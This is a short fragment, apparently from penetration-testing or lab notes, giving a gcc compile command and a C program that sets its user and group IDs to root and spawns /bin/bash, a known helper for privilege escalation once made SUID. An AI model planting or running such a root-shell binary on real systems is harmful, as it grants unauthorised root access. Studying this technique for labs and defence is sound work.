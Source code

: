 `gcc SCRIPT.c -o COMPILED.c`

C code:

```
int main(){
	setuid(0);
	setgid(0);
	system("/bin/bash");
	return 0;
}
```


